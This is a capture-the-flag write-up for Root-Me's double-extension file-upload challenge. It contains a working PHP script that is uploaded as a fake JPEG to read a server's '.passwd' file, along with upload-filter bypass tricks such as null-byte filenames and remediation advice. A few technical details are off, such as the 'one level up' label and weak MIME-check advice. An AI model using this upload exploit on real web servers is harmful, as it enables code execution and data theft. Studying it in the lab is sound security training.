 ## Root-Me.org Challenge Write-Up: Web Server - File Upload - Double Extensions
`https://www.root-me.org/en/Challenges/Web-Server/File-upload-Double-extensions`

This comprehensive write-up analyzes the "File Upload - Double Extensions" challenge in the Web Server category on Root-Me.org, delving into the vulnerability, exploitation techniques, debugging methods, and crucial security lessons for developers.

### Challenge Description

The challenge presents a straightforward yet impactful objective: "Your goal is to hack this photo gallery by uploading PHP code. Retrieve the validation password in the file .passwd at the root of the application." 

This scenario reflects a prevalent web application vulnerability: exploiting insecure file uploads to gain unauthorized access to sensitive data.

### Understanding the Vulnerability: File Upload Validation Bypass

File uploads are indispensable for many web applications but introduce a significant attack surface if not properly secured. This challenge revolves around exploiting **inadequate validation of uploaded files.**

The challenge's name, "Double Extensions," provides a strong clue. Many applications rely on a simplistic check of the file extension (e.g., .jpg, .png) to determine the file type. Attackers exploit this weakness by using filenames with multiple extensions, such as `malicious_script.php.jpg`. If the server only validates the last extension, it might process the file as an image (.jpg) while remaining oblivious to the embedded PHP code (.php).

#### Bypassing Stringent Filters: The Art of Double Extensions

While a simple `file.php.jpg` often suffices, more robust applications might employ additional checks.  Here are some techniques to bypass more stringent filters:

* **Case Sensitivity:** Some filters might be case-sensitive, so variations like `file.phP.jpg` or `file.php.JpG` could slip through.
* **Special Characters:**  Inserting special characters (allowed within filenames) like underscores (`file_php.jpg`) or hyphens (`file-php.jpg`) before the final extension might confuse certain filters.
* **Null Byte Injection:** In specific cases, injecting a null byte (`%00`) into the filename (`file.php%00.jpg`) might prematurely truncate it during validation, allowing the PHP extension to take precedence. 

### Exploitation Methodology

#### 1. Crafting the Malicious Upload

Our first step involves creating a PHP file, which we'll name `exploit.php`, containing code to traverse the web server's directory structure and retrieve the contents of the `.passwd` file. Here's the PHP code:

```php
<?php
// Define a function to recursively traverse directories
function read_passwd($dir) {
  // Check if the directory is readable before proceeding
  if (!is_readable($dir)) {
    return false; // Skip if directory is not readable
  }

  // List files and directories in the current directory
  $files = scandir($dir);

  // Iterate through the files and directories
  foreach($files as $file) {
    // Skip '.' and '..' (current and parent directory)
    if ($file == '.' || $file == '..') {
      continue;
    }

    // Construct the full path to the file/directory
    $path = $dir . '/' . $file;

    // Check if it's a file named '.passwd'
    if (is_file($path) && $file == '.passwd') {
      // Read and return the contents of the .passwd file
      return file_get_contents($path);
    }

    // If it's a directory, recursively call this function
    if (is_dir($path)) {
      $result = read_passwd($path);
      if ($result !== false) {
        return $result;
      }
    }
  }

  // If .passwd not found in current directory or its subdirectories
  return false;
}

// Start traversing from four levels up (relative to the uploaded file)
$passwd_content = read_passwd(dirname(dirname(dirname(dirname(__FILE__)))));

// Check if the .passwd file was found
if ($passwd_content !== false) {
  echo "Contents of .passwd:\n";
  echo $passwd_content;
} else {
  echo "Error: .passwd file not found.";
}
?>
```

The `read_passwd()` function remains consistent. The crucial element lies in pinpointing the starting directory for traversal. The challenge states that the `.passwd` file is located at the "root of the application." By analyzing the provided upload path (`./galerie/upload/1c06365d15e9a4d85637720d426ac404/exploit.php.jpeg`), we observe four levels of directories, indicating the need to traverse up four levels.  The code `dirname(dirname(dirname(dirname(__FILE__))))` accomplishes this, ensuring the script starts its search from the intended directory.

#### 2. Uploading the File

We rename our `exploit.php` file to `exploit.php.jpeg` and attempt to upload it. Our goal is to trick the server's validation into categorizing it as a harmless JPEG image. 

#### 3. Executing the PHP Code

If the upload is successful, we access the provided URL of the uploaded file.  A successful bypass results in the server executing our PHP code, despite the seemingly innocuous JPEG extension.

#### 4. Debugging: Traversing the File System 

If our initial traversal depth is incorrect, we need a way to visually inspect the directory structure.  Modify your `exploit.php.jpeg` file to include the following code:

```php
<?php
// ... (Previous code remains the same)

// Echo the current working directory 
echo "Current Directory: " . getcwd() . "<br>";

// To go one level up:
$oneLevelUp = dirname(__FILE__);
echo "One Level Up: " . $oneLevelUp . "<br>";

// To go two levels up:
$twoLevelsUp = dirname(dirname(__FILE__));
echo "Two Levels Up: " . $twoLevelsUp . "<br>";

// ... and so on, adding more 'dirname()' calls to go higher ...

// (Remove or comment out the call to read_passwd() for debugging) 
?>
```

This modified script reveals the absolute path of each directory level, starting with the current directory of the script. By analyzing the output, we can precisely determine how many levels we need to traverse to reach the root of the application.

#### 5. Retrieving the Password File

After confirming the correct traversal depth, we revert to our original `exploit.php` code (the one that reads the `.passwd` file), rename it back to `exploit.php.jpeg`, re-upload, and access its URL.  With the adjusted traversal, the script should now locate and display the contents of the `.passwd` file, marking the challenge as solved.

### Security Implications and Remediation

This seemingly simple challenge exposes a critical vulnerability with potentially dire consequences. A successful exploit could allow an attacker to upload and execute arbitrary code on the server, potentially leading to data breaches, defacement, or complete system compromise.

To mitigate this risk, developers must prioritize robust file upload security:

* **Whitelist Validation:** Only allow uploads of files with specific, pre-approved extensions.  Avoid relying solely on blacklists, as they are often easily bypassed.
* **MIME Type Verification:**  Validate the file's MIME type (Content-Type header) to ensure it matches the expected file type, not just the extension.
* **Content Inspection:**  Implement content-based validation techniques to examine the actual contents of the uploaded file, looking for signatures or patterns indicative of malicious code.
* **Unique Filenames:**  Generate random and unique filenames for uploaded files to prevent attacks that rely on predictable filenames.
* **Secure Storage:** Store uploaded files outside the webroot directory, preventing direct access via a web browser.

By incorporating these best practices, developers can significantly reduce the risk of file upload vulnerabilities and protect their applications and sensitive data from malicious actors. 
